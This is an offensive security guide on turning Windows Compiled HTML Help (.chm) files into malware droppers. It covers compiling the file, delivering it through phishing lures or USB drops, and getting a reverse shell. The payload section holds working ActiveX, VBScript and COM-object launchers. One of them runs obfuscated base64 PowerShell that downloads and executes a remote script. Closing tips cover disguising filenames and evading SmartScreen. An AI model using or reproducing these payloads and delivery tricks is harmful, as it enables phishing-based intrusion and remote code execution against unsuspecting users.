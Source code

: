 
# CHM (Compiled HTML Help) Files

**Type:** Malicious Documents & File-Based Delivery  
**Platform:** Windows  
**Prerequisites:** User must open the `.chm` file manually (usually via phishing or USB drop); Windows has built-in CHM file support


---
## Overview

**CHM files** (Compiled HTML Help) are a legacy Microsoft format for help documents. Despite being designed for documentation, they support **embedded HTML, JavaScript, and ActiveX** , including the ability to run **executable code** via scripting.

Attackers weaponize `.chm` files by embedding malicious scripts or links that execute **PowerShell, CMD, or dropper EXEs** when the file is opened. This makes CHM-based initial access attractive


---
## How It Works

- The attacker crafts a `.chm` file with malicious content (e.g., an HTML file calling `mshta.exe` or `powershell.exe`).
- When the target opens the `.chm`, the embedded script is automatically rendered.
- This script executes system commands (often silently), such as downloading or running a second-stage payload.

CHM files are treated as **trusted content** in many systems, especially if stored or opened locally (e.g., `C:\Users\Public\info.chm`).


---
## Prerequisites

**Tools Needed***
- `hh.exe` (Windows Help Viewer, built-in)
- `HTML Help Workshop` (to compile `.chm`)
- Simple web server or payload generator (e.g., `msfvenom`, `python3`, `Netcat`)


---
## Steps to Implement

1. **Create Malicious HTML**

![[creating-html-payload.png]]

2. **Compile the HTML into `.chm` Using HTML Help Workshop.** [Download Microsoft’s HTML Help Workshop.](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/htmlhelp/microsoft-html-help-downloads)

**Steps:**

   **1 - Create a `.hhp` project file:**

```
[OPTIONS]
Compatibility=1.1 or later
Compiled file=payload.chm
Default topic=index.html
```

![[creating-hhp-file.png]]

   **2 - open project.hhp in `HTML Help Workshop`**
  ![[opening-project.png]]
   
![[opening-project-hhp.png]]   

   **3 - Add `payload.html` to the project.**
![[adding-html-payload.png]]

![[adding-html-payload-.png]]

![[html-payload-file.png]]

   
   **4 - Compile to payload.chm.**
   
![[compile-to-chm.png]]

![[compiling.png]]


3. **Deliver the `.chm` File**
   - Email it as an attachment with a lure like “Invoice.chm”
   - Drop it on USB or shared drive

4. **Execution**

once the victim open the `.chm` file the embedded script will be rendered by `hh.exe` , resulting in a reverse shell being established.


![[prepare.png]]


![[pwnd.png]]


---
## Payload/Code Snippets

- **malicious HTML payload with embedded JavaScript  ( will trigger windows-security-warning  - not recommended )**
```html
<html>
<head>
  <script type="text/javascript">
    var shell = new ActiveXObject("WScript.Shell");
    shell.Run("calc.exe");
  </script>
</head>
<body>
<h1>Help Document</h1>
<p>This is a sample help document.</p>
</body>
</html>
```

- **malicious HTML payload with embedded VBScript ( will trigger windows-security-warning  - not recommended )**
```html
<html>
<head>
  <script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "calc.exe"
</script>
</head>
<body>
<h1>Help Document</h1>
<p>This is a sample help document.</p>
</body>
</html>
```

- **stealthy command execution via COM Object. ( recommended )**
```html
<html>
  <head>
    <title>Customer Service</title>
  </head>

  <body>
    <h2 align="center">Customer Service</h2>
    <h3 align="center">Please wait...</h3>

    <!-- Malicious COM object -->
    <object 
      id="shortcut" 
      classid="clsid:52a2aaae-085d-4187-97ea-8c30db990436" 
      width="1" 
      height="1">
      
      <!-- Set the command type -->
      <param name="Command" value="ShortCut">

      <!-- Launch PowerShell with obfuscated payload -->
      <param name="Item1" value=",powershell.exe, -w 1 -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgA4ADAAMAAwAC8AcABhAHkAbABvAGEAZAAuAHAAcwAxACcAKQA= ">
      
    </object>

    <!-- Trigger execution -->
    <script>
      shortcut.Click();
    </script>
  </body>
</html>

```



---
## Tips

- Rename `.chm` files to blend in (e.g., `manual.chm` , `HR_policy.chm`)
- CHM files execute locally without firewall triggers
- Combine with LNK or autorun.inf on USB drops
- mshta is a trusted binary (LOLBAS), commonly used with CHM
- Avoid triggering SmartScreen by serving from internal shares or trusted paths


---

## References

- [LOLBAS: mshta](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)
- [Microsoft HTML Help Workshop](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/htmlhelp/microsoft-html-help-downloads)
- [MITRE ATT&CK ID: T1218.001 – Signed Binary Proxy Execution: Compiled HTML File](https://attack.mitre.org/techniques/T1218/001/)
- [Weaponize .chm files with PowerShell — Nishang](https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e)
- [Analyzing a Malicious Compiled HTML Help File Delivering Agent Tesla](https://unit42.paloaltonetworks.com/malicious-compiled-html-help-file-agent-tesla/)

---

**_Author_** : **o-sec**
